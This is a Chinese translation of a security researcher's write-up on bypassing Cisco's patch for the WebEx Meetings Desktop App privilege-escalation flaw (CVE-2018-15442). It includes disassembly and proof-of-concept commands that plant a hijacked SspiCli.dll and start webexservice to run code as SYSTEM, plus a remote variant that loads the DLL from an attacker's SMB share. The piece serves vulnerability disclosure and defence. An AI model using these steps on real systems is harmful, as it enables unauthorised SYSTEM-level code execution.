 > 原文链接: https://www.anquanke.com//post/id/167152 


# 如何绕过Cisco WebEx Meetings Desktop App最新补丁


                                阅读量   
                                **159012**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者srcincite，文章来源：srcincite.io
                                <br>原文地址：[https://srcincite.io/blog/2018/12/03/webexec-reloaded-cisco-webex-meetings-desktop-app-lpe.html](https://srcincite.io/blog/2018/12/03/webexec-reloaded-cisco-webex-meetings-desktop-app-lpe.html)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t0152474d8b72a9cef4.png)](https://p2.ssl.qhimg.com/t0152474d8b72a9cef4.png)



## 一、前言

前一段时间，[Ron Bowes](https://twitter.com/iagox86)发现Cisco WebEx Meetings Desktop App中存在一个漏洞，这是一个本地权限提升漏洞，如果攻击者具备用户账户凭据，还能利用`psexec`以`SYSTEM`身份远程执行代码。Ron Bowes将该漏洞命名为**WebExec**，还为此专门建了一个[网站](https://webexec.org/)。现在的问题在于，官方给的补丁貌似并不完美。

在本文中，我重新发现了[CVE-2018-15442](https://srcincite.io/advisories/src-2018-0034)的利用方法，绕过了官方对原始漏洞的补丁。由于原始漏洞和补丁绕过方法相似，因此Cisco决定不为该漏洞发布新的CVE编号，我也比较认同这一决定。从技术角度来讲，这是一个远程代码执行漏洞，但该漏洞的触发方式比较特别，在本地上下文中更好利用。



## 二、简介

[Webex](https://www.webex.com/products/meetings/index.html)网站上对webex的总结如下：

> ……在Webex Meetings的帮助下，加入会议是非常简单的一件事，音频和视频也更加清晰、屏幕共享比以前更加方便。您可以不用去关心背后的技术，专注更为重要的事务……

话虽如此，麻烦Cisco还是不要忘记技术上的安全性。

在阅读Ron的[文章](https://blog.skullsecurity.org/2018/technical-rundown-of-webexec)后，我们知道底层的问题在于WebExService会接收用户可控的一个二进制文件，并将其以`SYSTEM`权限运行。对漏洞利用来说这真是极好的一件事，感谢Cisco！



## 三、再次发现漏洞

根据Ron的描述，打上补丁后应用会检查待执行的文件是否经过WebEx签名。

> 打上补丁后，WebEx仍然可以让远程用户连接并启动进程。然而，如果待运行的可执行文件没有经过WebEx的签名，那么就会停止运行。不幸的是，我们并不知道该主机是否存在漏洞。

好吧，让我们按照正常步骤走，自己检查一下补丁情况。从Cisco的CDN上安装[最新版应用](https://akamaicdn.webex.com/client/WBXclient-33.6.2-16/webexapp.msi)后，可以发现官方已经打上最新补丁：

[![](https://p3.ssl.qhimg.com/t011120d55731cd9da6.png)](https://p3.ssl.qhimg.com/t011120d55731cd9da6.png)

图1. 目前33.6.2.16为最新版本

深入分析`C:\Program Files\Webex\Webex\Applications\WebExService.exe`这个文件后，我们可以看到有趣的一些点。首先我注意到程序代码只查找一种参数类型，即`software-update`:

```
.text:00402DC4 loc_402DC4:                                          ; CODE XREF: sub_402D80+1C
.text:00402DC4                 push    offset aSoftwareUpdate       ; "software-update"
.text:00402DC9                 push    dword ptr [esi+8]            ; lpString1
.text:00402DCC                 call    ds:lstrcmpiW
.text:00402DD2                 test    eax, eax
.text:00402DD4                 jnz     loc_402E66
.text:00402DDA                 push    208h                         ; Size
.text:00402DDF                 push    eax                          ; Val
.text:00402DE0                 lea     eax, [ebp+Dst]
.text:00402DE6                 push    eax                          ; Dst
.text:00402DE7                 call    memset
.text:00402DEC                 add     esp, 0Ch
.text:00402DEF                 lea     eax, [ebp+Dst]
.text:00402DF5                 push    offset pszFile               ; "ptupdate.exe"
.text:00402DFA                 push    dword ptr [esi+10h]          ; pszDir
.text:00402DFD                 push    eax                          ; pszDest
.text:00402DFE                 call    ds:PathCombineW
.text:00402E04                 sub     esp, 18h
.text:00402E07                 lea     eax, [ebp+Dst]
.text:00402E0D                 mov     ecx, esp                     ; Dst
.text:00402E0F                 mov     [esi+10h], eax
.text:00402E12                 push    eax                          ; Src
.text:00402E13                 call    sub_402EB0
.text:00402E18                 call    sub_402310                   ; signature check on ptupdate.exe
.text:00402E1D                 add     esp, 18h
.text:00402E20                 test    eax, eax
.text:00402E22                 jz      short loc_402E46             ; jump if we don't pass the check!
.text:00402E24                 lea     eax, [ebp+var_214]
.text:00402E2A                 mov     [ebp+var_214], 0
.text:00402E34                 push    eax
.text:00402E35                 push    ecx
.text:00402E36                 lea     ecx, [edi-3]
.text:00402E39                 lea     edx, [esi+0Ch]
.text:00402E3C                 call    sub_402960                   ; execute "ptupdate.exe" as winlogon.exe
```

随后，程序代码调用`PathCombineW`，参数为我们在命令行中提供的字符串`ptupdate.exe`。看到这里我已经不想进一步逆向分析了，我甚至懒得去逆向分析签名检查函数或者模拟及执行函数，我心中已经有了攻击计划。



## 四、漏洞利用

此时，我们需要做的就是将`C:\Program Files\Webex\Webex\Applications\*`中的所有文件拷贝到用户（访客用户或者本地用户）可控的一个目录中（该目录也可以是沙盒目录），然后寻找DLL劫持漏洞，或者删除某个DLL实现DLL劫持。

在可以避免的情况下，我不喜欢程序出现非预期行为，因此我想寻找不影响程序状态的DLL植入问题。为了完成这个任务，我首先执行了如下命令：

```
mkdir %cd%\si
copy C:\PROGRA~1\Webex\Webex\Applications\* %cd%\si\*
sc start webexservice a software-update 1 %cd%\si
```

结果表明，`SspiCli.dll`貌似是一个不错的目标。

[![](https://p3.ssl.qhimg.com/t0145904a9ee55c35b6.png)](https://p3.ssl.qhimg.com/t0145904a9ee55c35b6.png)

图2. `ptUpdate.exe`无法在当前目录中找到`SspiCli.dll`

当然，我们还可以继续分析并利用其他43个`LoadLibraryW`调用。此时，在PoC利用场景中，我们需要再加入1条命令：

```
mkdir %cd%\si
copy C:\PROGRA~1\Webex\Webex\Applications\* %cd%\si\*
copy SspiCli.dll %cd%\si
sc start webexservice a software-update 1 %cd%\si
```

[![](https://p5.ssl.qhimg.com/t013e3bf28748e83f33.png)](https://p5.ssl.qhimg.com/t013e3bf28748e83f33.png)

图3. 通过DLL劫持以`SYSTEM`权限执行代码

如上所述，从技术角度来看，我们也可以实现以`SYSTEM`权限运行的RCE效果，但这个过程必须通过身份认证，此时我们可以使用`sc \victim start webexservice a software-update 1 "\attackersharesi"`这条命令。



## 五、总结

如果某个高权限服务执行了文件操作，并且文件路径可由攻击者控制，那么该服务就很容易成功攻击者的目标。这个漏洞非常简单，但功能强大，可以通过SMB方式从远程触发，也能作为沙箱逃逸的一种方法。我认为逻辑漏洞将成为未来主流的漏洞利用目标，此时攻击者距离突破操作系统级别防护仅一步之遥。

Cisco并没有第一时间完全补掉这个漏洞，这一点令人难以置信。Cisco只需要固定`C:\Program Files\Webex\Webex\Applications`目录，并且移除用户控制的所有输入点即可。我总共花了10分钟就找到了这个漏洞，也给这个漏洞起了个名字：`WebExec reloaded`，重新载入攻击者可控的任意DLL文件，非常形象。

最后，非常感谢[iDefense](https://vcp.idefense.com/login.jsf)在漏洞处置过程中发挥的作用。



## 六、参考资料
- [https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20181024-webex-injection](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20181024-webex-injection)
- [https://blog.skullsecurity.org/2018/technical-rundown-of-webexec](https://blog.skullsecurity.org/2018/technical-rundown-of-webexec)